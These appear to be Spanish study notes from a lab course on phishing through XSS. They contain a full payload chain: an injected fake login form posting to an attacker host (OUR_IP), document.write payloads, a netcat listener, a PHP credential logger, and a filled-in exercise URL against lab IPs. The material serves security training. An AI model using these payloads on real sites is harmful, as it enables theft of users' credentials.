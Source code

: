 Aquí tienes un resumen en español sobre ataques de **Phishing** utilizando vulnerabilidades de XSS:

---

## **Phishing con XSS**

### **Introducción**

El phishing mediante XSS utiliza formularios falsos de inicio de sesión para engañar a las víctimas y capturar sus credenciales. Este tipo de ataque es efectivo cuando se explota una vulnerabilidad XSS, particularmente en aplicaciones confiables donde los usuarios no esperan ser engañados.

### **Fases del Ataque**

#### 1. **Descubrimiento de XSS**

- Identifica una vulnerabilidad XSS en la aplicación objetivo.
- Analiza cómo se procesa la entrada para encontrar un payload funcional.
- Ejemplo: Un visor de imágenes que recibe una URL como parámetro podría ser vulnerable:
    
    ```html
    http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>
    ```
    

#### 2. **Inyección del Formulario de Inicio de Sesión**

- Una vez identificado un payload funcional, se puede inyectar un formulario HTML que capture las credenciales:
    
    ```html
    <h3>Please login to continue</h3>
    <form action=http://OUR_IP>
        <input type="username" name="username" placeholder="Username">
        <input type="password" name="password" placeholder="Password">
        <input type="submit" name="submit" value="Login">
    </form>
    ```
    
- El formulario envía las credenciales al servidor controlado por el atacante.

#### 3. **Uso de `document.write()` para Inyectar el Formulario**

- El formulario HTML se agrega al payload utilizando `document.write()`:
    
    ```javascript
    document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
    ```
    

#### 4. **Eliminación de Elementos del Formulario Original**

- Para hacer más creíble el ataque, se puede eliminar el formulario original con `document.getElementById().remove()`:
    
    ```javascript
    document.getElementById('urlform').remove();
    ```
    
- Payload final:
    
    ```javascript
    document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
    ```
    

#### 5. **Ocultación del HTML Restante**

- Comentar el HTML restante para evitar mostrar contenido original:
    
    ```html
    ...PAYLOAD... <!--
    ```
    

### **Captura de Credenciales**

#### **Netcat**

- Escucha en el puerto 80 con Netcat para recibir solicitudes HTTP:
    
    ```bash
    sudo nc -lvnp 80
    ```
    
- Ejemplo de credenciales capturadas:
    
    ```
    GET /?username=test&password=test HTTP/1.1
    ```
    

#### **Servidor PHP**

- Utiliza un script PHP para registrar las credenciales en un archivo y redirigir al usuario al sitio original:
    
    ```php
    <?php
    if (isset($_GET['username']) && isset($_GET['password'])) {
        $file = fopen("creds.txt", "a+");
        fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
        header("Location: http://SERVER_IP/phishing/index.php");
        fclose($file);
        exit();
    }
    ?>
    ```
    
- Inicia el servidor PHP:
    
    ```bash
    sudo php -S 0.0.0.0:80
    ```
    
- Archivo `creds.txt` capturará las credenciales:
    
    ```bash
    Username: test | Password: test
    ```
    

### **Flujo del Ataque**

1. Identifica una vulnerabilidad XSS.
2. Inyecta un formulario falso con un payload XSS.
3. Captura credenciales mediante Netcat o un servidor PHP.
4. Redirige al usuario al sitio original para evitar sospechas.

---

### Ejercicio

http://10.129.173.209/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write(`+++++%3Cform+action%3D%22http%3A%2F%2F10.10.14.193%3A80%22+method%3D%22POST%22%3E+++++++++%3Cinput+type%3D%22text%22+name%3D%22username%22+placeholder%3D%22Username%22%3E+++++++++%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E+++++++++%3Cinput+type%3D%22submit%22+value%3D%22Login%22%3E+++++%3C%2Fform%3E+`)%3B%3C%2Fscript%3E%3C!%20--

no acepta la url por lo que vamos a probar a hostear nuestro php



